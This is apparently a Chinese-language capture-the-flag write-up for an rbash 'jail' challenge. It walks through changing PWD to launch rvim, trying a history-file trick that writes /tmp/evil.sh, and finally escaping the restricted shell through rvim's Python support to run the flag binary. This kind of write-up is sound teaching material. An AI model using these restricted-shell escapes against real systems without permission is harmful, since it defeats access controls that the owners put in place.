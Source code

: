 # School-bus "jail" writeup

这是一道rbash的题目，ssh登录上去后发现

```bash
ctfuser@jail:~$ export
declare -x HOME="/home/ctfuser"
declare -x LOGNAME="ctfuser"
declare -x MAIL="/var/mail/ctfuser"
declare -x OLDPWD
declare -rx PATH="/home/ctfuser/bin"
declare -x PWD="/home/ctfuser"
declare -rx SHELL="/bin/rbash"
declare -x SHLVL="1"
declare -x SSH_CLIENT="222.205.46.206 63419 22"
declare -x SSH_CONNECTION="222.205.46.206 63419 172.17.0.24 22"
declare -x SSH_TTY="/dev/pts/0"
declare -x TERM="xterm"
declare -x USER="ctfuser"
```

PATH变量和SHELL变量都是只读的，PATH变量被替换成了用户目录下的bin文件夹。bin文件夹下只有rvim这一个程序。rbash下执行程序的时候不能带有'/', 无法cd

```bash
ctfuser@jail:~$ /bin/rvim
-rbash: /bin/rvim: restricted: cannot specify `/' in command names
```

想到了可以修改PWD环境变量改变当前工作目录

```bash
ctfuser@jail:~$ export PWD=~/bin
ctfuser@jail:~/bin$
```

执行rvim， 尝试在rvim下执行shell命令，但被禁止

```
:!/bin/shE145: Shell commands not allowed in rvim
```

发现根目录下有一个叫flag_thisfilename1ss0longt0guess_HAHAHA的文件，用rvim打开发现是一个可执行文件，猜测可能需要执行这个文件才能拿到flag



尝试History file trick

1. set HISTFILE=/tmp/evil.sh
2. set HISTSIZE=0
3. set HISTSIZE=100
4. 在bash下输入 #!/bin/sh
5. 在bash下输入 /flag_thisfilename1ss0longt0guess_HAHAHA
6. logout
7. 重新ssh连上，发现tmp下面evil.sh的内容确实改变了，但是没有权限执行。



只能继续考虑rvim，rvim不能执行shell命令，但是可以在里面执行python，perl，python3，ruby等等命令。输入[Esc]:version查看当前vim的版本，以及支持哪些features，发现python是支持的。

```python
:python import os;os.system('/flag_thisfilename1ss0longt0guess_HAHAHA')
```

拿到flag~



